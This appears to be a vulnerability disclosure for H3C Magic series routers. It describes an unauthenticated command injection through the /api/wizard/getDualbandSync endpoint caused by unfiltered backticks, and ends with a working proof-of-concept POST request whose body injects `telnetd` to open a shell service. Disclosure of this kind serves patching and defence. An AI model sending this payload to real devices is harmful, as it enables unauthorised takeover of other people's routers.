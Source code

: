 ## Information

**Vendor of the products:** H3C Technologies Co., Ltd.

**Vendor's website:** https://www.h3c.com/

**Reported by:** Guan Qing Wen(2144987805@qq.com)

**Affected products:** H3C Magic NX15\H3C NX400\H3C Magic R3010\H3C Magic BE18000\H3C Magic NX30 Pro

**Affected firmware version:** <=V100R014 (Taking NX15 as an example.)

**Firmware download address:** [H3C NX15V100R014](https://www.h3c.com/cn/d_202409/2263952_30005_0.htm)

## Overview

In the `H3C` `Magic` series products, including `H3C Magic NX15`, `H3C NX400`, `H3C Magic R3010`, `H3C Magic BE18000`, and `H3C Magic NX30 Pro`, an attacker can send a specially crafted `POST` packet to the `/api/wizard/getDualbandSync` route without authorization, allowing them to obtain the highest privileges on the device.

## Vulnerability details

In the `api` file, the `FCGI_WizardProcess` function contains the `/wizard/getDualbandSync` route, which can trigger the corresponding handler function

![image-20250314163530353](https://raw.githubusercontent.com/Qwen11/picture/main/202503141635474.png)

Due to the failure to filter backticks as dangerous characters, command injection occurs

![image-20250314163623354](https://raw.githubusercontent.com/Qwen11/picture/main/202503141636518.png)

## Poc

```
POST /api/wizard/getDualbandSync HTTP/1.1
Host: 192.168.124.1
Content-Length: 11
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.124.1
Referer: http://192.168.124.1/home
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

'`telnetd`'
```

## 
